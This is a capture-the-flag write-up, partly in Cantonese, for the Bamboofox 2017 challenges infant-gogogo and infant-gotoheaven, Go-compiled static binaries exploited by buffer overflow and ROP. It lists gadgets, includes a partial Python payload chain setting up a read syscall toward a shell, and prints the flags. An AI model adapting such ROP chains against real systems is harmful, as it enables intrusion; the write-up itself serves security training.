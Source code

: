 # Bamboofox 2017 infant-gogogo & infant-gotoheaven
===================

兩條基本嘅buffer overflow with ROP不過係用golang compile, 算係1 set 向Seccon 2017 babystack致敬嘅題目

由於兩個都係static linked, 所以乜gadget都有,例如syscall, 只要跟住syscall table 汁藥就可以get shell

不過要留意好多gadget 都會對其他register 有operation 

例如 infant-gogogo :

```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
```
所以行呢句gadget 嘅時候要保證related register 唔係=0x0 

例如:
```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
```
就要保證RSI 唔係等於0x0 , 

所以就要去bss 段求其塞d valid memory address去個d 相關register:
For example:
```python
payload="A"*256
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
buf=0x0052e2a0
rsi=0x0000000000408437
rdx=0x0000000000413d6d
#call read rdi :fd=0 
#rsi:buf 
#rdx:size 
#rax:0x00
payload+=p64(pop_rax_ret)+p64(buf+0x200)
payload+=p64(pop_rdi)+p64(0x0)+p64(rsi)+p64(buf+0x300)
payload+=p64(rdx)+p64(0x8)+p64(pop_rax_ret)+p64(0)+p64(syscall)
```

# Solution :

[infant-gogogo](infant-gogogo.py)
[infant-gotoheaven](infant-gotoheaven.py)


# Flag

```
infant-gogogo: BAMBOOFOX{G0LaNg_iS_aw3s0m3ls!}

infant-gotoheaven : BAMBOOFOX{GOLANG_PWnnnnnnnIng_iS_r3A11Y_W3iRdO_O}

```



# Reference

1. http://shift-crops.hatenablog.com/entry/2017/12/09/200440





